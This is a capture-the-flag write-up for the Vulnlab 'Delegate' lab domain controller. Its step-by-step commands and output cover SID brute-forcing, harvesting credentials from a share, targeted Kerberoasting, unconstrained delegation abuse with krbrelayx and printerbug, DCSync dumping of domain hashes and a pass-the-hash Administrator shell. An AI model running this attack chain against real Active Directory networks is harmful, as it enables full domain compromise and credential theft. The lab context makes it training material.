

# Delegate
Link: https://www.vulnlab.com/machines

| Name | OS | Level | IP |
| -------- | -------- | -------- | -------- |
| Delegate | Windows | Medium | 10.10.88.149 |

Summary:
- Bruteforce SIDs (unauthenticated) to find list of domain accounts
- Find user credentials in shares
- User has GenericWrite rights over another user -> Targeted Kerberoasting
- Unconstrained delegation + Relaying Kerberos

# Enumeration
## Open ports
We start running Nmap to find the open ports and services running in the machine Delegate:
```bash
> nmap -sC -sV 10.10.88.149 -Pn               
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-11 22:43 PST
Nmap scan report for 10.10.88.149
Host is up (0.22s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-11-12 06:43:49Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: delegate.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: DELEGATE
|   NetBIOS_Domain_Name: DELEGATE
|   NetBIOS_Computer_Name: DC1
|   DNS_Domain_Name: delegate.vl
|   DNS_Computer_Name: DC1.delegate.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2023-11-12T06:44:02+00:00
| ssl-cert: Subject: commonName=DC1.delegate.vl
| Not valid before: 2023-09-30T15:47:02
|_Not valid after:  2024-03-31T15:47:02
|_ssl-date: 2023-11-12T06:44:42+00:00; -1s from scanner time.
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-11-12T06:44:05
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
```
Based on the output we can assume a few things:
- The machine is likely to be a domain controller
- Port 3389 is displaying DNS records that we can add to our `/etc/hosts` file
- Clock-skew is 1s, which should be ok when communicating to Kerberos

Lets add the domain to the `/etc/hosts` file:
```bash
> cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

10.10.88.149    DC1.delegate.vl delegate.vl DC1
```

## Bruteforce account SIDS
Using impacket-lookupsid we can bruteforce the accounts SIDs and retrieve some data, including user account names:
```bash
> impacket-lookupsid anonymous@delegate.vl
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Brute forcing SIDs at delegate.vl
[*] StringBinding ncacn_np:delegate.vl[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1484473093-3449528695-2030935120
498: DELEGATE\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: DELEGATE\Administrator (SidTypeUser)
501: DELEGATE\Guest (SidTypeUser)
502: DELEGATE\krbtgt (SidTypeUser)
512: DELEGATE\Domain Admins (SidTypeGroup)
513: DELEGATE\Domain Users (SidTypeGroup)
514: DELEGATE\Domain Guests (SidTypeGroup)
515: DELEGATE\Domain Computers (SidTypeGroup)
516: DELEGATE\Domain Controllers (SidTypeGroup)
517: DELEGATE\Cert Publishers (SidTypeAlias)
518: DELEGATE\Schema Admins (SidTypeGroup)
519: DELEGATE\Enterprise Admins (SidTypeGroup)
520: DELEGATE\Group Policy Creator Owners (SidTypeGroup)
521: DELEGATE\Read-only Domain Controllers (SidTypeGroup)
522: DELEGATE\Cloneable Domain Controllers (SidTypeGroup)
525: DELEGATE\Protected Users (SidTypeGroup)
526: DELEGATE\Key Admins (SidTypeGroup)
527: DELEGATE\Enterprise Key Admins (SidTypeGroup)
553: DELEGATE\RAS and IAS Servers (SidTypeAlias)
571: DELEGATE\Allowed RODC Password Replication Group (SidTypeAlias)
572: DELEGATE\Denied RODC Password Replication Group (SidTypeAlias)
1000: DELEGATE\DC1$ (SidTypeUser)
1101: DELEGATE\DnsAdmins (SidTypeAlias)
1102: DELEGATE\DnsUpdateProxy (SidTypeGroup)
1104: DELEGATE\A.Briggs (SidTypeUser)
1105: DELEGATE\b.Brown (SidTypeUser)
1106: DELEGATE\R.Cooper (SidTypeUser)
1107: DELEGATE\J.Roberts (SidTypeUser)
1108: DELEGATE\N.Thompson (SidTypeUser)
1121: DELEGATE\delegation admins (SidTypeGroup)
```
The output show the following user accounts that could be potential targets in future:

| SID | SamAccountName | 
| -------- | -------- |
| 500 | Administrator |
| 501 | Guest |
| 502 | krbtgt |
| 1104 | A.Briggs | 
| 1105 | b.Brown | 
| 1106 | R.Cooper | 
| 1107 | J.Roberts | 
| 1108 | N.Thompson | 

We also get the Domain SID:
```bash
Domain SID is: S-1-5-21-1484473093-3449528695-2030935120
```
We don't have credentials for any of these accounts. From here we could try a password spray, but lets keep enumerating and keep that in mind for later.

## SMB Shares
We can use crackmapexec with any username as long we don't enter any password to list the shares:
```bash
> crackmapexec smb delegate.vl -u 'anonymous' -p '' --shares
SMB         DC1.delegate.vl 445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
SMB         DC1.delegate.vl 445    DC1              [+] delegate.vl\anonymous: 
SMB         DC1.delegate.vl 445    DC1              [+] Enumerated shares
SMB         DC1.delegate.vl 445    DC1              Share           Permissions     Remark
SMB         DC1.delegate.vl 445    DC1              -----           -----------     ------
SMB         DC1.delegate.vl 445    DC1              ADMIN$                          Remote Admin
SMB         DC1.delegate.vl 445    DC1              C$                              Default share
SMB         DC1.delegate.vl 445    DC1              IPC$            READ            Remote IPC
SMB         DC1.delegate.vl 445    DC1              NETLOGON        READ            Logon server share 
SMB         DC1.delegate.vl 445    DC1              SYSVOL          READ            Logon server share
```
No interesting share name here, however, we can read IPC$, NETLOGON, and SYSVOL.

Accessing the NETLOGON share we find a batch file with credentials:
```bash
> smbclient //delegate.vl/NETLOGON -U 'anonymous'
Password for [WORKGROUP\anonymous]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Aug 26 05:45:24 2023
  ..                                  D        0  Sat Aug 26 02:45:45 2023
  users.bat                           A      159  Sat Aug 26 05:54:29 2023

                5242879 blocks of size 4096. 1922032 blocks available
smb: \> get users.bat 
getting file \users.bat of size 159 as users.bat (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> exit

> cat users.bat                                             
rem @echo off
net use * /delete /y
net use v: \\dc1\development 

if %USERNAME%==A.Briggs net use h: \\fileserver\backups /user:Administrator <redacted>
```

Looks like to be `A.Briggs` password. We can confirm trying to authenticate to SMB:
```bash
> crackmapexec smb delegate.vl -u 'A.Briggs' -p '<redacted>'          
SMB         DC1.delegate.vl 445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
SMB         DC1.delegate.vl 445    DC1              [+] delegate.vl\A.Briggs:<redacted>
```

With valid credentials we can get a full list of the domain accounts:
```bash
# Via crackmapexec
> crackmapexec smb delegate.vl -u 'A.Briggs' -p '<redacted>' --users

# Via Ldapsearch
> ldapsearch -x -H ldap://delegate.vl  -D 'A.Briggs@delegate.vl' -w '<redacted>' -b 'DC=delegate,DC=vl' "(objectClass=user)" "*" | grep sAMAccountName | cut -d " " -f 2
Administrator
Guest
DC1$
krbtgt
A.Briggs
b.Brown
R.Cooper
J.Roberts
N.Thompson
```
Nothing new compared to impacket-lookupsid output.

## Bloodhound
Bloodhound is the next thing we can do to get a better understanding of the environment and the compromised user rights:
```bash
# Via Netexec
> nxc ldap delegate.vl -u 'A.Briggs' -p '<redacted>' --bloodhound -ns 10.10.88.149 --collection All

# Via Bloodhound-python
> bloodhound-python -d delegate.vl -v --zip -c All -dc DC1.delegate.vl -ns 10.10.88.149 -u 'A.Briggs' -p '<redacted>'
```
We import the Bloodhound data, mark the user `A.Briggs` as owned and start analysing the attack path.

The user "A.BRIGGS" has generic write access to the user "N.THOMPSON".  
From the perspective of the attacker, the compromised user "A.BRIGGS" can abuse this to add a new SPN to the user "N.THOMPSON" and kerberoast that account.

# Initial Foothold
## Targeted Kerberoasting
```bash
> git clone https://github.com/ShutdownRepo/targetedKerberoast.git
> cd targetedKerberoast
> python targetedKerberoast.py -v -d 'delegate.vl' -u 'A.Briggs' -p '<redacted>'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (N.Thompson)
[+] Printing hash for (N.Thompson)
$krb5tgs$23$*N.Thompson$DELEGATE.VL$delegate.vl/N.Thompson*$c8bb2001c426ace6883c5b50f35be993$df413c927...<redacted>
[VERBOSE] SPN removed successfully for (N.Thompson)
```

We can save the hash into a file and attempt to crack offline:
```bash
> hashcat -m 13100 nthompson.hash /usr/share/wordlists/rockyou.txt
$krb5tgs$23$*N.Thompson$DELEGATE.VL$delegate.vl/N.Thompson*$c8bb2001c426ace6883c5b50f35be993$df413c927...<redacted>:<redacted>
```
Cracked! User "N.THOMPSON" can PSRemote into the DC1, lets get a shell using its credentials and start enumerating:
```bash
> evil-winrm -i delegate.vl -u 'N.Thompson' -p '<redacted>'

*Evil-WinRM* PS C:\Users\N.Thompson\Documents> whoami /all                                                              
                                                                                                                        
USER INFORMATION
----------------

User Name           SID
=================== ==============================================
delegate\n.thompson S-1-5-21-1484473093-3449528695-2030935120-1108


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
DELEGATE\delegation admins                  Group            S-1-5-21-1484473093-3449528695-2030935120-1121 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                                    State
============================= ============================================================== =======
SeMachineAccountPrivilege     Add workstations to domain                                     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                                       Enabled
SeEnableDelegationPrivilege   Enable computer and user accounts to be trusted for delegation Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                                 Enabled
```
From a simple `whoami /all` we can see a possible attack vector, unconstrained delegation:  
1. User is member of the group "Delegation Admins"  
2. User has the privileges "SeMachineAccountPrivilege" and "SeEnableDelegationPrivilege" which allow adding workstations to the domain and enabling computer and user accounts to be trusted for delegation

For this attack I will be following [this article](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit) called "Relaying Kerberos - Having fun with unconstrained delegation" written by Dirk-jan Mollema.

# Privilege Escalation
Based on the article, here are the requirements for the attack:  
1. Control over an account with unconstrained delegation privileges  
2. Permissions to modify the servicePrincipalName attribute of that account  
3. Permissions to add/modify DNS records  
4. A way to connect victim users/computers to us  

Since the compromised user "N.THOMSPON" have the privileges to create workstations and enable delegation, we just need to check the MachineAccountQuota:
```bash
> crackmapexec ldap delegate.vl -u 'N.Thompson' -p '<redacted>' -M maq

SMB         DC1.delegate.vl 445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
LDAP        DC1.delegate.vl 389    DC1              [+] delegate.vl\N.Thompson:<redacted>
MAQ         DC1.delegate.vl 389    DC1              [*] Getting the MachineAccountQuota
MAQ         DC1.delegate.vl 389    DC1              MachineAccountQuota: 10
```
Great! We can add up to 10 machines in the domain.  
To summarize, the attack we will be doing the following:  
1. Create a new "evil" machine in the domain  
2. Set the UserAccountControl property in the evil machine to allow unconstrained delegation  
3. Add a new DNS record in the DC1 that points to our attacker machine  
4. Add a SPN matching the DNS record to the evil machine machine  
5. Use the printerbug to coerce the DC to authenticate to our evil machine  
6. Use the tool krbrelayx to "relay" the Kerberos authentication  

## Unconstrained Delegation attack
The easiest way to add a new computer to the domain is by using one of these tools: PowerMad, SharpMad, impacket-addcomputer.
```bash
> addcomputer.py -dc-ip 10.10.88.149 -computer-pass 'Password123!2023' -computer-name evilcomputer delegate.vl/N.Thompson:'<redacted>'

Impacket v0.11.0 - Copyright 2023 Fortra
[*] Successfully added machine account evilcomputer$ with password Password123!2023.
```

Next, we have to enable unconstrained delegation in the `evilcomputer`. We can do that remotely using BloodyAD:
```bash
> git clone https://github.com/CravateRouge/bloodyAD.git
> cd bloodyAD
> pip3 install .
> python3 /opt/bloodyAD/bloodyAD.py -u 'N.Thompson' -d 'delegate.vl' -p '<redacted>' --host 'DC1.delegate.vl' add uac 'evilcomputer$' -f TRUSTED_FOR_DELEGATION
[-] ['TRUSTED_FOR_DELEGATION'] property flags added to evilcomputer$'s userAccountControl
```

We can use the [krbrelayx toolkit](https://github.com/dirkjanm/krbrelayx) developed by Dirk-jan to perform the next tasks.  
Add a DNS record for the evilmachine account we created:
```bash
> git clone https://github.com/dirkjanm/krbrelayx.git
> cd krbrelayx
> python3 dnstool.py -u 'delegate.vl\evilcomputer$' -p 'Password123!2023' -r evilcomputer.delegate.vl -d 10.8.0.151 --action add DC1.delegate.vl -dns-ip 10.10.88.149
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```
Note that `10.8.0.151` is my attacker machine IP.  

In step 4, we need to add an additional SPN via `msDS-AdditionalDnsHostName` to our evilcomputer:
```bash
# Check the SPN records
> python addspn.py -u delegate\\N.Thompson -p '<redacted>' -s HOST/attacker.delegate.vl -q dc1.delegate.vl -t 'evilcomputer$' -dc-ip 10.10.88.149
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
DN: CN=evilcomputer,CN=Computers,DC=delegate,DC=vl - STATUS: Read - READ TIME: 2023-11-12T00:57:23.943939
    sAMAccountName: evilcomputer$

# Add SPN pointing to evilcomputer.delegate.vl
## Adding CIFS
> python addspn.py -u delegate\\N.Thompson -p '<redacted>' -s CIFS/evilcomputer.delegate.vl dc1.delegate.vl -t 'evilcomputer$' -dc-ip 10.10.88.149
## Adding HOSTS
> python addspn.py -u delegate\\N.Thompson -p '<redacted>' -s HOST/evilcomputer.delegate.vl dc1.delegate.vl -t 'evilcomputer$' -dc-ip 10.10.88.149 --additional

# Check the SPN records again
> python addspn.py -u delegate\\N.Thompson -p '<redacted>' -s HOST/attacker.delegate.vl -q dc1.delegate.vl -t 'evilcomputer$' -dc-ip 10.10.88.149
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
DN: CN=evilcomputer,CN=Computers,DC=delegate,DC=vl - STATUS: Read - READ TIME: 2023-11-12T00:57:23.943939
    sAMAccountName: evilcomputer$
    msDS-AdditionalDnsHostName: evilcomputer.delegate.vl
    servicePrincipalName: CIFS/evilcomputer.delegate.vl


```
We can confirm that the DNS entry is working:
```bash
> nslookup evilcomputer.delegate.vl 10.10.88.149
Server:         10.10.88.149
Address:        10.10.88.149#53

Name:   evilcomputer.delegate.vl
Address: 10.8.0.151
```

Now we start the krbrelay server:
```bash
# We need the NTLM hash of the password for evilcomputer account
> iconv -f ASCII -t UTF-16LE <(printf 'Password123!2023') | openssl dgst -md4
MD4(stdin)= f2d0c0e145e8323b97cec00272d7fa01

> python krbrelayx.py -hashes :f2d0c0e145e8323b97cec00272d7fa01
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMB loaded..
[*] Running in export mode (all tickets will be saved to disk). Works with unconstrained delegation attack only.
[*] Running in unconstrained delegation abuse mode using the specified credentials.
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up DNS Server
```

Finally, we trigger the printerbug:
```bash
> python printerbug.py -hashes :F2D0C0E145E8323B97CEC00272D7FA01 delegate.vl/evilcomputer\$@dc1.delegate.vl evilcomputer.delegate.vl

[*] Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attempting to trigger authentication via rprn RPC at dc1.delegate.vl
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Triggered RPC backconnect, this may or may not have worked
```

We receive the ticket for the DC1 in our krbrelay server:
```bash
[*] SMBD: Received connection from 10.10.88.149
[*] Got ticket for DC1$@DELEGATE.VL [krbtgt@DELEGATE.VL]
[*] Saving ticket in DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache
```

We can simply DCSYNC the domain controller using the ticket and login with the NTLM hash of the Administrator:
```bash
> export KRB5CCNAME='DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache'
> secretsdump.py -k dc1.delegate.vl -just-dc

Impacket v0.11.0 - Copyright 2023 Fortra
                                                                                                                        
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
A.Briggs:1104:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
b.Brown:1105:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
R.Cooper:1106:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
J.Roberts:1107:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
N.Thompson:1108:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
DC1$:1000:aad3b435b51404eeaad3b435b51404ee:<redacted>:::   
evilcomputer$:3101:aad3b435b51404eeaad3b435b51404ee:f2d0c0e145e8323b97cec00272d7fa01:::
...<snip>...

> evil-winrm -i delegate.vl -u 'Administrator' -H '<redacted>'
Evil-WinRM shell v3.5                                         
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
